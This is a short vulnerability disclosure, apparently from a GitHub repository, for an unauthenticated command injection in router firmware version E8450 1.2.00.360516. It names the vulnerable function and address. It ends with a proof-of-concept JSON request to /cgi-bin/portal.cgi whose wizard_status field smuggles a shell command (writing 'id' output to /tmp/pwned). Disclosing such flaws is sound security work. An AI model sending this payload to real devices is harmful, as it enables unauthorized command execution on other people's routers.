


## Firmware

Firmware version:FW_E8450_1.2.00.360516_prod_signed.img

## Analyze

Unauthenticated command injection

The vulnerability is located at address 0x429820  . The sub_422eb8 function is an json parsing function.The parsed fields(wizard_status) are used as arguments to the system function.



## Poc

Send the following data to this url to trigger the vulnerability:  http://target/cgi-bin/portal.cgi 



```json
{"action":"set_wizard_status","page":"wizard_status","wizard_status":"\";`id>/tmp/pwned`;# \""}
```

